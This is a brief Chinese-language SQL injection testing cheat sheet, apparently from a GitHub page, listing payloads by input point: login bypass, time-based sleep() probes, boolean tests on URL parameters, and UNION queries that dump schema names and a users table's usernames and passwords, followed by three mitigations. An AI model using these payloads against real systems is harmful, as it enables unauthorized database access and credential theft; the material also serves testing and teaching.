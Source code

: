 ## Sql Injection


### Sql Injection 渗透测试

1、登录框（一般不存在）
```
admin'-- -
' or 1=1 #
```

2、模糊查询输入框（因多条件，开发很容易使用动态拼接sql来组装查询语句）
```
%') and sleep(1);-- -
%') and sleep(1); #
```

3、URL表达式(?id=123)
```
' or '1' = 1'
可以更进一步猜表名
'or 1=(select count(*) from job) #
```

4、在列表页面可以爆表（通过联合查询回显）
```
union select table_name from information_schema.tables
```

同理可爆字段、数据库用户信息

常用渗透语句
```
select schema_name from information_schema.schemata
select column_name from information_schema.columns where table_name='users'
select group_concat(username,':',password) from users
```

`sleep(1)`也就是每条记录sleep1秒


### Sql Injection 注意事项

1. 永远不要使用动态拼装sql，可以使用参数化的sql
2. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接
3. 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息
